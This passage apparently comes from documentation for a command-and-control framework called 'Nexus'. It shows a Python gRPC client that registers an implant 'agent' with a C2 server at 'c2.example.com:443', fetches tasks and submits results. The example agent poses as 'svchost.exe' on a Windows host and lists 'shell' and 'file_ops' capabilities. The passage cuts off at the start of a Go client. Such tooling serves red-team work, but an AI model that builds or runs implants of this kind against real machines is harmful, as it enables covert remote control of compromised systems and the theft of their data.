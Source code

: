 ```python
            process_id=agent_info['process_id'],
            process_name=agent_info['process_name'],
            architecture=agent_info['architecture'],
            capabilities=agent_info['capabilities'],
            public_key=agent_info['public_key']
        )
        
        response = self.stub.RegisterAgent(request)
        return response
    
    def get_tasks(self, agent_id, max_tasks=10):
        request = nexus_pb2.TaskRequest(
            agent_id=agent_id,
            max_tasks=max_tasks
        )
        
        tasks = []
        for task in self.stub.GetTasks(request):
            tasks.append(task)
        
        return tasks
    
    def submit_task_result(self, task_result):
        response = self.stub.SubmitTaskResult(task_result)
        return response

# Usage
client = NexusClient('c2.example.com:443', 'ca.crt', 'client.key')

# Register agent
agent_info = {
    'hostname': 'WIN-DESKTOP-01',
    'os_type': 'Windows',
    'os_version': '11 Pro',
    'ip_address': '192.168.1.100',
    'username': 'alice',
    'process_id': 1234,
    'process_name': 'svchost.exe',
    'architecture': 'x64',
    'capabilities': ['shell', 'file_ops'],
    'public_key': 'public_key_data'
}

registration = client.register_agent(agent_info)
print(f"Registered with agent ID: {registration.agent_id}")
```

#### Go Client

```go
package main

import (
    "context"
    "crypto/tls"
    "log"
    
    "google.golang.org/grpc"
    "google.golang.org/grpc/credentials"
    pb "your-module/nexus"
)

type NexusClient struct {
    conn   *grpc.ClientConn
```